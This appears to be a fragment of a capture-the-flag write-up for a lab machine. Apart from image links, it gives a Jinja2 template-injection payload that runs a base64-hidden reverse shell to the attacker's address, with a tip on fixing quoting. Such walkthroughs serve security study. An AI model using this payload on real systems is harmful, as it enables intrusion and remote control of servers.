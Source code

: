 ![Untitled](Sandworm%207c63f253073b46e1b0040559500c3300/Untitled%2026.png)

![Untitled](Sandworm%207c63f253073b46e1b0040559500c3300/Untitled%2027.png)

![Untitled](Sandworm%207c63f253073b46e1b0040559500c3300/Untitled%2028.png)

The above one is failed because for base64 using the “” thats reason

use like this

```jsx
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4yNS85MDAxIDA+JjEK | base64 -d | bash").read() }}
```
